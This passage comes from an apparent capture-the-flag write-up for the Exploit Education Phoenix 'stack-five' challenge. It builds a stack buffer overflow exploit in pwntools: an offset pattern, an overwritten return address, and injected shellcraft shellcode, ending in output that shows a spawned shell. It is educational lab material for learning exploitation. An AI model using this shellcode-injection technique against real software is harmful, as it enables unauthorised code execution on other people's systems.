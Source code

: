 Aha! It starts at **0x7fffffffed40**. The payload is thus
{: style="text-align: justify;"}
```
payload = cyclic(136) + p64(0x7fffffffed40)
```

Next, we need to prepare the shellcode that will be placed at the buffer’s start. Pwntools conveniently has the *shellcraft* module for generating it in a single line:
{: style="text-align: justify;"}
```
# The asm() instruction compiles the shellcode 
# and provides its binary string 
shellcode = asm(shellcraft.sh())
```

This was placed into the exploit Python file, along with a `print(hexdump(shellcode))` command for inspecting the results. Executing it, we get
{: style="text-align: justify;"}
<div style="text-align:center">
  <img src="/assets/images/post_images/Phoenix/stack-five-pwntools-shellcode/post_fifth_image.png">
</div>

Great. We now need to place the shellcode at the payload’s beginning. The final payload is made with the following lines:
{: style="text-align: justify;"}
```
# Overriding the stack frame’s return address
payload = cyclic(136) + p64(0x7fffffffed40) 
#
# Replace the first portion of the payload with the shellcode
payload = shellcode + payload[len(shellcode):]
```

Removing the `gdb.attach()` line that connected the debugger to the executing Pwntools process and launching the final exploit, we get
{: style="text-align: justify;"}
```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-five$ ./exploit.py
Launching The Stack Five Exploit!
[!] Could not find executable 'stack-five' in $PATH, using '/opt/phoenix/amd64/stack-five' instead
[+] Starting local process '/opt/phoenix/amd64/stack-five': pid 20434
[*] Switching to interactive mode
Welcome to phoenix/stack-five, brought to you by https://exploit.education
$ ls
final-one    format-one    heap-one    net-one       stack-four    stack-two
final-two    format-three  heap-three  net-two       stack-one    stack-zero
final-zero   format-two    heap-two    net-zero    stack-six
format-four  format-zero   heap-zero   stack-five  stack-three
$ whoami
nathan
```
